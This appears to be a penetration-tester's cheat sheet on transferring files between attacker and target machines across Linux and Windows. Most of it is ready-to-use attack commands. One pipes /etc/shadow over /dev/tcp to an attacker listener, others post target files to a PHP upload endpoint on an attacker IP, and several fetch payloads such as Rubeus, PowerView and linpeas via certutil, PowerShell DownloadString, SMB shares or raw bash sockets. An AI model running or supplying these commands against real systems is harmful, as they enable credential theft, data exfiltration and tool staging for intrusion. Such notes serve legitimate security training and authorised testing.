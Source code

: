 # Trasferring Files

## Linux Target -> Linux Attack

### Without any tools

```bash
cat /etc/shadow > /dev/tcp/IP/PORT

nc -lvnp 4444 > exfiltrated_shadow
```

## Linux -> \*

### HTTP Apache Server

```bash
# copy file to transfer in apache repo
cp /opt/Windows/windows-resources/binaries/nc.exe /var/www/html

# start apache service
systemctl start apache2

# Check Active internet connections
netstat -tulpn
```

### Setup Apache Server to Upload Files

One method of transfer file to attacker's machine is to set up an upload method that allow us to upload files through the Apache Server.

1. Create a .php file into '_/var/www/html_' with this body:

{% code title="upload.php" %}
```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```
{% endcode %}

2. Create the uploads directory to house our uploads.

```bash
mkdir /var/www/uploads
chown www-data:www-data /var/www/uploads
```

3. Make a request with a file to Apache Server

```bash
wget --post-file=/PATH/TO/$FILENAME  http://$ATT_IP/upload.php
curl -F 'file=@/PATH/TO/$FILENAME' http://$ATT_IP/upload.php
```



## Linux -> Windows Targets

### Python Server

```bash
# Attacker linux machine
python -m SimpleHTTPServer 80
python3 -m http.server 80

# Target machine
cd C:\
mkdir Temp
cd Temp

# 1
certutil -urlcache -f http://IP:80/file.exe file_name.exe

# 2
IEX(New-Object Net.WebClient).DownloadString("http://$IP:$PORT/file_name.exe")

# 3
IWR -Uri http://$IP/$FILENAME -OutFile C:\temp\$FILENAME
```

### SMB Server Impacket

_"This script will launch a SMB Server and add a share specified as an argument. You need to be root in order to bind to port 445. For optional authentication, it is possible to specify username and password or the NTLM hash. Example: smbserver.py -comment 'My share' TMP /tmp"_

<pre class="language-bash"><code class="lang-bash"># Att Kali Machine
cd /usr/share/doc/python3-impacket/examples
./smbserver.py $SHARE_NAME $(pwd) -smb2support

# from impacket tool 
impacket-smbserver smbFolder $(pwd) -smb2support

# Target machine
cp \\$ATT_IP\$SHARE_NAME\$FILENAME . # (ex. \\172.16.1.30\share\rubeus.exe .)
copy \\10.10.14.90\smbFolder\file.exe # ex
<strong>
</strong><strong># import a .ps1 module
</strong>. \\$ATT_IP\$SHARE_NAME\$FILENAME # (ex. \\172.16.1.30\share\PowerView.ps1)
</code></pre>



## Linux -> Linux Targets

### Python Server

{% code overflow="wrap" %}
```bash
# Attacker's machine
python -m SimpleHTTPServer 80
python3 -m http.server 80

# Target machine
## WGET
wget http://IP:80/file.py -O /tmp/$FILENAME
## CURL
curl $IP/$FILENAME -o /tmp/$FILENAME
# BASH
bash -c '{ echo -ne "GET /linpeas.sh HTTP/1.0\r\nhost: 172.16.1.30\r\n\r\n" 1>&3; cat 0<&3; } \
   3<>/dev/tcp/172.16.1.30/80 \
   | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > linpeas.sh'
```
{% endcode %}

### FTP Server

```bash
# Attacker's machine
python3 -m pyftpdlib -w -p 21

# Target machine
## get a file from att machine
ftp $ATT_IP
ftp> ls -l
ftp> get $FILENAME

## upload a file to att machine
ftp $ATT_IP
ftp> ls -l
ftp> put $LOCAL_FILENAME
ftp> ls -l
```

## Windows Target -> Linux

```bash
# attacker machine (who receives)
nc -lnvp PORT > file.txt

# windows target machine
nc64.exe -nv ATT_IP ATT_PORT < file.txt -w 15
```









## Trasfering file with NC.exe

[#send-files-via-nc](shells/#send-files-via-nc "mention")



## Resources

{% embed url="https://juggernaut-sec.com/linux-file-transfers-for-hackers/" %}

